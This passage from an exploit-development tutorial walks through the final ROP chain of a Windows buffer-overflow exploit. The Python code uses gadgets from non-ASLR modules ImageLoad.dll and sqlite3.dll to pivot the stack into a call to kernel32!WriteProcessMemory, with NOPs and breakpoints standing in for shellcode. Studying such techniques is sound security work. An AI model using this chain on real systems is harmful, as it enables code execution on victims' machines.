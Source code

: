 <img src="{{ site.url }}{{ site.baseurl }}/images/WPM88.png" alt="">

The arbitrary write occurs, and we have successfully dynamically placed our parameters on the stack!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM89.png" alt="">

Now that everything has been configured properly, the final goal is to kick off this function call. To do so, we will need to load the stack address which points to `kernel32!WriteProcessMemory` into ESP - and return into it.

Currently, after the ECX manipulation, ECX contains a stack address 0x8 bytes above the stack address we want to load into ESP (this was due to compensation for the ECX + 0x8 arbitrary write ROP gadget). This means we want to increase ECX to contain the address on the stack in question.

The goal now will be to:

1. Set ECX equal to the stack address pointing to `kernel32!WriteProcessMemory`
2. Load ECX into EAX
3. Exchange EAX and ESP, then return into ESP

Our last ROP routine can solve this issue!

```python
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)

# Moving ECX into EAX
crash += struct.pack('<L', 0x1001fa0d)    # mov eax, ecx ; ret: ImageLoad.dll (non-ASLR enabled module)

# Exchanging EAX with ESP to fire off the call to kernel32!WriteProcessMemory
crash += struct.pack('<L', 0x61c07ff8)    # xchg eax, esp ; ret: sqlite3.dll (non-ASLR enabled module)
```
Let's also add some breakpoints to "mimic" shellcode - directly after the `xchg eax, esp` ROP gadget.

```python

# NOPs before shellcode
crash += "\x90" * 230

# Breakpoints
crash += "\xCC" * 200
```
